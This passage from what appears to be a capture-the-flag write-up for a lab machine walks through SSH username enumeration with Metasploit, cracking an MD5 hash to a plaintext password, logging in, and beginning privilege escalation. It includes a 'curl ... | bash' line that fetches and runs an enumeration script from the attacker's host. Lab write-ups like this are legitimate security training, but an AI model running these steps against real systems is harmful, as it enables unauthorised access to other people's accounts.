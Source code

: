 ## Enumerating SSH with the Usernames

There are almost 500 usernames in this list, so putting the usernames and the hashed passwords into separate files:
```markdown
jq . users.json | awk -F\" '{print $2}' > users.lst
jq . users.json | awk -F\" '{print $4}' > passwords.txt
```

The passwords have 32 characters and are probably **MD5 hashes**.

Now an user enumeration script for _SSH_ with **Metasploit** can be used:
```markdown
msf5 > use auxiliary/scanner/ssh/ssh_enumusers

set RHOSTS 10.10.10.86
set THREADS 50
set USER_FILE users.lst

run
```

After it finishes, it found one valid username called _genevieve_.
This users password hash is _fc7992e8952a8ff5000cb7856d8586d2_ and can be found in openly accessible hash databases like [Crackstation](https://crackstation.net/) and the password is:
> Princess1

Alternative: Cracking MD5 hash with **Hashcat**:
```markdown
hashcat -m 0 genevieve.hash /usr/share/wordlists/rockyou.txt
```

Access with this user on SSH works:
```markdown
ssh genevieve@10.10.10.86
```

## Privilege Escalation

To get an attack surface on the box, running any **Linux Enumeration script** on it:
```markdown
curl 10.10.14.19/LinEnum.sh | bash
```

After analyzing the output, there are interesting _SUID files_:
- /usr/bin/myexec
- /sbin/ldconfig
- /sbin/ldconfig.real

The _myexec_ binary asks for a password and does nothing else. Lets download it and analyze it with **Radare2**:
```markdown
r2 myexec
```

Analyzing all flags (`aaa`) and list functions (`afl`), there is only the _main_ function that is is interesting.
Disassembling the _main_ function (`pdf @ main`) and it shows a password in there:
